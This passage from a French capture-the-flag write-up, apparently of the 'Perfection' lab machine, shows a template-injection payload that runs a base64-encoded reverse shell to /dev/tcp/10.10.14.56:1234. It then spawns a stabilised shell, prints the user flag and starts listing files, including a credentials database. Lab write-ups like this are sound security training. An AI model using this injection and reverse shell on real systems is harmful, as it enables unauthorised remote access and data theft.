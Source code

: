 ```bash
category1=a%0a%3c%25%3d%20system(%22echo%20c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNS8xMjM0IDA%2bJjE%3d%20%7c%20base64%20-d%20%7c%20bash%20%22)%20%25%3e&grade1=100&weight1=100&category2=b&grade2=10&weight2=0&category3=c&grade3=0&weight3=0&category4=Nss&grade4=0&weight4=0&category5=ssss&grade5=0&weight5=0
```

{{< image src="images/perfection3_burp.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

L'idée est d'injecter un reverse shell sh encodé en base64 qui une fois décodé par le systeme sera executé. En d'autres termes,  
 `c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTYvMTIzNCAwPiYx` 
 correspond au base64 encodé de : 
`sh -i >& /dev/tcp/10.10.14.56/1234 0>&1`

{{< image src="images/perfection4_revshell.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

on ce spawn un shell stabilisé : 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


```bash
susan@perfection:~/ruby_app$ pwd 
pwd 
/home/susan/ruby_app
susan@perfection:~/ruby_app$ ls
ls
main.rb  public  views
susan@perfection:~/ruby_app$ ls ..
ls ..
Migration  ruby_app  user.txt
```

Flag user : 

```bash
susan@perfection:~/ruby_app$ cat /home/susan/user.txt
cat /home/susan/user.txt
9c2a5f719be63a507b52901aaa1c5975
```

## Flag root 

```bash
susan@perfection:~/ruby_app$ find /home -readable 
find /home -readable 
/home
/home/susan
/home/susan/.vimrc
/home/susan/.bash_logout
/home/susan/user.txt
/home/susan/.lesshst
/home/susan/.sqlite_history
/home/susan/Migration
/home/susan/Migration/pupilpath_credentials.db
[....]
```
